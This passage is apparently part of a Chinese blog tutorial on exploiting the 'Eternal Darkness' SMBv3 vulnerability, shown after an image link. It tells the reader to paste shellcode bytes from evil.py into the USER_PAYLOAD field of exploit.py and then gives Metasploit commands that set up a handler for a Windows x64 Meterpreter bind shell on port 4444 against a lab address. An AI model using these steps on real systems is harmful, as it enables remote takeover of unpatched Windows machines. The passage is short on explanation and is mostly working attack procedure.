 ![11](/medias/永恒之黑/11.png)

需要把evil.py后面的字节数据替换到exploit里的USER_PAYLOAD里

简单的做法，用notepad++或者sublinetext把evil.py里的buf全部替换为USER_PAYLOAD，替换到exploit.py里即可

msf开启监听功能：

```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/bind_tcp
set lport 4444
set rhost 192.168.237.136
run
```
